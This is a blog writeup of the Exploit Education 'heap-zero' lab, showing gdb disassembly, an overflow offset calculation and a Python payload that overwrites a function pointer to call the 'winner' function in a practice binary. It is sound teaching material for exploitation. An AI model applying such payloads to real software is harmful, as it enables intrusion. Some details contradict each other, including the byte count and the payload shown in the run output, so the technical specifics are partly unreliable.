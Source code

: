 ```yaml
---
layout: post
title: Heap Zero Writeup - Exploit Education Lab Exercise
categories: [security, binary-exploit, reverse-engineering, friday-gems]
tags: [security, binary-exploitation, friday-gems]
comments: true
description: A comprehensive writeup that helps to understand Heap Zero exercise heap buffer overflow vulnerability with learning resources.
---
```


If you haven't set up your lab yet, feel free to check out my previous article on [Exploit.education lab setup](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/06/exploit-education-lab-setup.html)

Previous Writeup: 
1. [Stack Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/12/exploit-education-stack-zero-exercise-writeup.html)
2. [Stack One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/20/exploit-education-stack-one-exercise-writeup.html)
3. [Stack Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/26/exploit-education-stack-two-exercise-writeup.html)
4. [Stack Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/27/exploit-education-stack-three-exercise-writeup.html)
5. [Stack Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/01/28/exploit-education-stack-four-exercise-writeup.html)
6. [Stack Five Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/04/exploit-education-stack-five-exercise-writeup.html)
7. [Stack Six Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/02/26/exploit-education-stack-six-exercise-writeup.html)
8. [Format Zero Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/10/exploit-education-format-zero-exercise-writeup.html)
9. [Format One Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/03/31/exploit-education-format-one-exercise-writeup.html)
10. [Format Two Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/07/exploit-education-format-two-exercise-writeup.html)
11. [Format Three Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/14/exploit-education-format-three-exercise-writeup.html)
12. [Format Four Writeup - Exploit Education Lab Exercise](https://shivasurya.me/security/binary-exploit/reverse-engineering/friday-gems/2023/04/21/exploit-education-format-four-exercise-writeup.html)

### Quick Overview

Similar to Stack One, Heap Zero exercise motive is to smash the heap to modify other variables in the heap to a `hex value` and technically overwrite `function pointer` in the heap. Similar to `gets` in Stack Zero, `strcpy` function is unsafe that doesn't have bounds check, it accepts memory address to write but doesn't care about overwriting other declared function pointer in stack. If you take closer look at the struct which isn't dynamically being allocated by `malloc` function, so probably the struct which contains both `char buffer[64]` and `int *fp` function pointer stays in main stackframe. This overwritten function pointer will be further used to invoke in later part of the program.

### Disassemble

Disassembling the code will get you overall idea behind the heap-zero code, One can use `gdb ./heap-zero` to start debugging it in runtime.

1. `gdb ./heap-zero`
2. Type `disassemble main` to get the disassembled code (assembly)

```assembly
   0x08048867 <+0>:     lea    ecx,[esp+0x4]
   0x0804886b <+4>:     and    esp,0xfffffff0
   0x0804886e <+7>:     push   DWORD PTR [ecx-0x4]
   0x08048871 <+10>:    push   ebp
   0x08048872 <+11>:    mov    ebp,esp
   0x08048874 <+13>:    push   ebx
   0x08048875 <+14>:    push   ecx
   0x08048876 <+15>:    sub    esp,0x10
   0x08048879 <+18>:    mov    ebx,ecx
   0x0804887b <+20>:    sub    esp,0xc
   0x0804887e <+23>:    push   0x804ac44
   0x08048883 <+28>:    call   0x8048600 <puts@plt>
   0x08048888 <+33>:    add    esp,0x10
   0x0804888b <+36>:    cmp    DWORD PTR [ebx],0x1
   0x0804888e <+39>:    jg     0x80488aa <main+67>
   0x08048890 <+41>:    sub    esp,0xc
   0x08048893 <+44>:    push   0x804ac90
   0x08048898 <+49>:    call   0x8048600 <puts@plt>
   0x0804889d <+54>:    add    esp,0x10
   0x080488a0 <+57>:    sub    esp,0xc
   0x080488a3 <+60>:    push   0x1
   0x080488a5 <+62>:    call   0x8048680 <exit@plt>
   0x080488aa <+67>:    sub    esp,0xc
   0x080488ad <+70>:    push   0x40
   0x080488af <+72>:    call   0x8049146 <malloc>
   0x080488b4 <+77>:    add    esp,0x10
   0x080488b7 <+80>:    mov    DWORD PTR [ebp-0xc],eax
   0x080488ba <+83>:    sub    esp,0xc
   0x080488bd <+86>:    push   0x40
   0x080488bf <+88>:    call   0x8049146 <malloc>
   0x080488c4 <+93>:    add    esp,0x10
   0x080488c7 <+96>:    mov    DWORD PTR [ebp-0x10],eax
   0x080488ca <+99>:    mov    eax,DWORD PTR [ebp-0x10]
   0x080488cd <+102>:   mov    DWORD PTR [eax],0x804884e
   0x080488d3 <+108>:   mov    eax,DWORD PTR [ebx+0x4]
   0x080488d6 <+111>:   add    eax,0x4
   0x080488d9 <+114>:   mov    edx,DWORD PTR [eax]
   0x080488db <+116>:   mov    eax,DWORD PTR [ebp-0xc]
   0x080488de <+119>:   sub    esp,0x8
   0x080488e1 <+122>:   push   edx
   0x080488e2 <+123>:   push   eax
   0x080488e3 <+124>:   call   0x80485b0 <strcpy@plt>
   0x080488e8 <+129>:   add    esp,0x10
   0x080488eb <+132>:   mov    eax,DWORD PTR [ebp-0x10]
   0x080488ee <+135>:   mov    eax,DWORD PTR [eax]
   0x080488f0 <+137>:   push   eax
   0x080488f1 <+138>:   push   DWORD PTR [ebp-0x10]
   0x080488f4 <+141>:   push   DWORD PTR [ebp-0xc]
   0x080488f7 <+144>:   push   0x804acb8
   0x080488fc <+149>:   call   0x80485d0 <printf@plt>
   0x08048901 <+154>:   add    esp,0x10
   0x08048904 <+157>:   mov    eax,ds:0x804c2c0
   0x08048909 <+162>:   sub    esp,0xc
   0x0804890c <+165>:   push   eax
   0x0804890d <+166>:   call   0x8048610 <fflush@plt>
   0x08048912 <+171>:   add    esp,0x10
   0x08048915 <+174>:   mov    eax,DWORD PTR [ebp-0x10]
   0x08048918 <+177>:   mov    eax,DWORD PTR [eax]
   0x0804891a <+179>:   call   eax
   0x0804891c <+181>:   mov    eax,0x0
   0x08048921 <+186>:   lea    esp,[ebp-0x8]
   0x08048924 <+189>:   pop    ecx
   0x08048925 <+190>:   pop    ebx
   0x08048926 <+191>:   pop    ebp
   0x08048927 <+192>:   lea    esp,[ecx-0x4]
   0x0804892a <+195>:   ret
```

If you carefully check the source, you might miss `winner` in the above disassembled code. You can go ahead and type `disassemble winner` in the gdb prompt,

```assembly
   0x08048835 <+0>:     push   ebp
   0x08048836 <+1>:     mov    ebp,esp
   0x08048838 <+3>:     sub    esp,0x8
   0x0804883b <+6>:     sub    esp,0xc
   0x0804883e <+9>:     push   0x804abd0
   0x08048843 <+14>:    call   0x8048600 <puts@plt>
   0x08048848 <+19>:    add    esp,0x10
   0x0804884b <+22>:    nop
   0x0804884c <+23>:    leave
   0x0804884d <+24>:    ret
```

Before taking a look at the code, if you disassembled the heap-zero using gdb to view the assembly instruction, you may notice the puts, fflush, exit and gets function calls with parameters. So basically when you hit `r` in gdb without breakpoint,

1. Greet with `Welcome to phoenix/heap-zero, brought to you by https://exploit.education` message via Puts (aka printf) method
2. It checks if an argument was passed to the program. If not, it prints a message asking for an argument and exits.
3. It allocates memory for a data structure and an fp structure using malloc.
4. It initializes the function pointer in the fp structure to point to the nowinner function.
5. It copies the argument passed to the program into the name field of the data structure using strcpy.
6. It prints the addresses of the data and fp structures and the address of the function pointed to by fp.
7. It calls the function pointed to by fp, which by default is the nowinner function that prints a message indicating that the level has not been passed.

### Primary Goal

The primary goal of this exercise is to make you familiar to overwrite function pointer with your own function pointer and therefore redirecting the program flow to achieve code execution within the binary/program. In ideal exploit world, you may overwrite the function pointer and redirect to `system` function call to achieve remote code execution and [this](https://securitylab.github.com/research/now-you-c-me-part-two/) blog post good example of reflecting this goal. In this exercise, you might want to overwrite the function pointer `fp` with `winner` function memory address.

### Memory Allocation

As you see that the `data` struct is dynamically allocated, they are allocated seperately by `malloc` different from stack frame. You can see that `data.name` (64 bytes) gets written at `0xf7e69008` and `fp` integer variable (4 bytes) at `0xf7e69050`. Now that you got the overall idea of the memory layout of the stack, you can now go ahead blow up the buffer to overwrite `fp`. If you play around with these memory layout behaviour, you may note that the char `buffer` variable writes from `$0xf7e69008` grows towards `$0xf7e69050`.

So, the overflow bytes can be calculated as `0x50` - `0x08` (hexadecimal) results in `0x42` and converted to decimal (72). So, you can overflow the buffer with 72 bytes and overwrite the `fp` variable. However, you may note that the `fp` variable is an integer and it is 4 bytes long. So, you can overflow the buffer with 72 bytes and 4 bytes of `fp` variable. So, the total bytes to overflow is `72 + 4 = 76` bytes. Now, you can go ahead and generate the payload with 76 bytes of `A` and 4 bytes of `fp` variable. The remaining 4 bytes of `fp` variable can be overwritten with `winner` function memory address.

To get the winner memory address, you can use gdb to disassemble the `winner` function and note down the starting address of the function. You can use `disassemble winner` command in gdb to disassemble the `winner` function. The starting address of the `winner` function is `0x08048835`. The address `0x08048835` can be represented in little endian format as `\x35\x88\x04\x08`. So, the final payload would be `76 bytes of A + 4 bytes of fp variable + 4 bytes of winner function address`. You can use python to generate the payload as follows,

```python
print('A'*72 + '\x35\x88\x04\x08')
```

### Exploit

So, the final exploit would be as follows,

```assembly
(gdb) r $(python -c "print('A'*72 + '\x35\x88\x04\x08')")
Starting program: /opt/phoenix/amd64/heap-zero <<< $(python -c "print('A'*64 + '\x9d\x06\x40')")
Welcome to phoenix/heap-zero, brought to you by https://exploit.education
data is at 0xf7e69008, fp is at 0xf7e69050, will be calling 0x08048835
Congratulations, you have passed this level
```

There you go! 🎉 You've officially `pwned` the `binary` and possibly you could control the program flow and may 
eventually perform remote code execution in the system. 🪲

![buffer-overflow-meme](/assets/media/what-does-that-mean-i-have-a-buffer-overflow-vulnerability.png)

### Source and Reference:

1. Heap Zero Exercise: [Exploit Education](https://exploit.education/phoenix/heap-zero/)

### Closing Note:

I hope this post is helpful for vulnerability researcher 🔍 & code reviewers, For bugs,hugs & discussion, DM in [Twitter](https://twitter.com/sshivasurya). Opinions are my own and not the views of my employer.